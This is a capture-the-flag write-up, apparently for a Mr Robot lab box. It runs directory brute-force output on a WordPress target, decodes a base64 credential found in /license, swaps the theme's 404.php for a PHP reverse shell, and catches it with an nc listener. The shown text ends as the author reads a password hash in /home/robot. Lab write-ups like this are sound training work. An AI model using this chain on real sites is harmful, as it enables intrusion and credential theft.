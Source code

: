 ```text
/robots               (Status: 200) [Size: 41]
/robots.txt           (Status: 200) [Size: 41]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.245.29/feed/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.245.29/feed/]
/sitemap              (Status: 200) [Size: 0]
/sitemap.xml          (Status: 200) [Size: 0]
/video                (Status: 301) [Size: 234] [--> http://10.10.245.29/video/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.245.29/wp-admin/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.245.29/wp-content/]
/wp-config            (Status: 200) [Size: 0]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.245.29/wp-includes/]
/wp-cron              (Status: 200) [Size: 0]
/wp-load              (Status: 200) [Size: 0]
/wp-links-opml        (Status: 200) [Size: 227]
/wp-mail              (Status: 500) [Size: 3064]
/wp-login             (Status: 200) [Size: 2664]
/wp-settings          (Status: 500) [Size: 0]
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.245.29/wp-login.php?action=register]
/xmlrpc               (Status: 405) [Size: 42]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)
===============================================================
2022/12/15 02:37:48 Finished
===============================================================

```

O, hey, a `wp-login`. And `OSVDB-3092: /license.txt: License file found may identify site software.`

### dialogue

    curl -s http://10.10.245.29/license | tr -d "\n"

    blabla ZWxsaW90OkVSMjgtMDY1Mgo=

    echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
    elliot:ER28-0652

Login with the credentials: `http://10.10.245.29/wp-login`

Replacing the `404.php` with the [monkeytest reverse shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

And open a listener on the Kali machine.

    nc -nlvp 1234        
    Ncat: Version 7.93 ( https://nmap.org/ncat )
    Ncat: Listening on :::1234
    Ncat: Listening on 0.0.0.0:1234
    Ncat: Connection from 10.10.245.29.
    Ncat: Connection from 10.10.245.29:49295.
    Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     02:57:09 up  1:06,  0 users,  load average: 0.00, 0.10, 0.74
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=1(daemon) gid=1(daemon) groups=1(daemon)
    /bin/sh: 0: can't access tty; job control turned off
    $ cd /home/robot
    $ ls
    key-2-of-3.txt
    password.raw-md5
    $ cat key-2-of-3.txt
    cat: key-2-of-3.txt: Permission denied
    $ cat password.raw-md5